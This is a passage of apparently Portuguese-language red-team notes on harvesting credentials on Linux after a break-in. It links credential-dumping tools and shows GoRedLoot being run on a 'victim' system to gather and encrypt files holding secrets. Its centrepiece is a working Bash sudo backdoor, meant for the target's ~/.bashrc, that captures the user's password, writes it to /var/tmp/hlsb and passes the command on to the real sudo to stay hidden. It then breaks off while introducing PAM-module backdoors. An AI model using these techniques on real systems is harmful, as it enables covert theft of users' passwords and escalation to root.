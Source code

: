```
- https://github.com/CiscoCXSecurity/linikatz
- https://github.com/huntergregal/mimipenguin
- https://github.com/blendin/3snake


#### Searching files for secrets

O GoRedLoot (GRL) é uma ferramenta multiplataforma para fazer exatamente isso. O GoRedLoot pode ser considerado um grep altamente avançado. O GRL considera nomes de arquivos e conteúdo para incluir e excluir de suas buscas, de modo que você possa procurar por conteúdo específico enquanto considera falsos positivos.
Além disso, o GoRedLoot compacta e criptografa esses arquivos na memória e, em seguida, grava seu conteúdo preparado em um local escolhido pelo invasor. 

E podemos chamar essa ferramenta (ou injetá-la na memória) da seguinte forma no sistema da vítima:

```
$ ./GoRedLoot /home/ /tmp/initram
```

Também podemos usar ferramentas semelhantes do Windows da SharpCollection, como SharpDir, SharpShare e SharpFiles, se estivermos procurando uma solução específica para Windows.

- https://github.com/ahhh/goredloot
- https://github.com/Flangvik/SharpCollection


#### Backdooring password utilities

Existe um truque bem antigo para obter a senha de um usuário, mesmo que você não tenha root em um sistema. Por exemplo, se você tiver acesso a uma conta de usuário e esse usuáriopuder usar o sudo, mas você não souber a senha dele e quiser usá-la, você pode usar funções maliciosas do Bash para fazer backdoor no usuário. Queremos colocar essa função maliciosa no ~/.bashrc


```sh
function sudo () {
	realsudo="$(which sudo)"
	read -s -p "[sudo] password for $USER: " inputPasswd
	printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /var/tmp/hlsb
	$realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1
	$realsudo "${@:1}"
}
```

- https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194

#### PAM modules

O núcleo da maioria das autenticações Unix é gerenciado por um framework chamado PAM. PAM é um sistema antigo, de aproximadamente 1995, que significa pluggable authentication
modules. O framework PAM também existe no macOS, e técnicas semelhantes podem funcionar nele. 
